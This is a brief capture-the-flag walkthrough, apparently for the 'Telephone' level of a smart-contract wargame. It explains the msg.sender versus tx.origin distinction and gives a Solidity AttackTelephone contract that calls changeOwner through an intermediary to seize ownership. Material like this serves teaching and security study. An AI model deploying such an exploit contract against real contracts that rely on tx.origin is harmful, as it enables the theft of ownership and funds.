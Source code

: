 # Day 4 - Telephone

When you call a contract (A) function from within another contract (B), the msg.sender is the address of B, not the account that you initiated the function from which is tx.origin

```js
pragma solidity ^0.6.0;
contract AttackTelephone {
  address public telephone;

  constructor (address _telephone) public {
      telephone = _telephone;
  }

  function changeOwnerMaliciously(address badOwner) public {
    bytes memory payload = abi.encodeWithSignature("changeOwner(address)", badOwner);
    (bool success, ) = telephone.call(payload);
  }
}
```

